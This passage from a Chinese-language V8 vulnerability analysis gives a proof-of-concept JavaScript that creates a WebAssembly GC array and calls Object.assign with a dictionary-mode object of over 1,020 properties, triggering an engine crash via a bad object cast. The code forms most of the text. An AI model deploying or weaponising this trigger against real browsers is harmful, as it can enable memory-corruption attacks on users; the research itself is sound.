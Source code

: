 因此这部分poc如下  
```
// job(from)->elements非空, 进入CPP方法JSReceiver::SetOrCopyDataProperties()处理
let from = {};
from[0]=0;

// 添加properties, 使得job(from)->properties通过字典实现, 让!from->HasFastProperties()成立
// properties个数超过1020, 让source_length > kMaxNumberOfDescriptors成立
// 最终触发JSObject::NormalizeProperties(..., Handle<JSObject>::cast(target), ...)
for(let i=0; i<1021; i++) {
    from['p'+i] = i;
}

Object.assign(array42, from);
```  
  
  
**4.4**  
  
**完整POC**  
  
最终下面这样的POC即可触发crash  
```
const prefix = "../../";

d8.file.execute(`${prefix}/test/mjsunit/wasm/wasm-module-builder.js`);

let builder = new WasmModuleBuilder();
let array = builder.addArray(kWasmI32, true);

builder.addFunction('createArray', makeSig([kWasmI32], [kWasmExternRef]))
    .addBody([
        kExprLocalGet, 0,
        kGCPrefix, kExprArrayNewDefault, array,
        kGCPrefix, kExprExternConvertAny,
    ]).exportFunc();

let instance = builder.instantiate({});
let wasm = instance.exports;
let array42 = wasm.createArray(42);
%DebugPrint(array42);

// job(from)->elements非空, 进入CPP方法JSReceiver::SetOrCopyDataProperties()处理
let from = {};
from[0]=0;

// 添加properties, 使得job(from)->properties通过字典实现, 让!from->HasFastProperties()成立
// properties个数超过1020, 让source_length > kMaxNumberOfDescriptors成立
// 最终触发JSObject::NormalizeProperties(..., Handle<JSObject>::cast(target), ...)
for(let i=0; i<1021; i++) {
    from['p'+i] = i;
}

Object.assign(array42, from);
%SystemBreak();
```  
  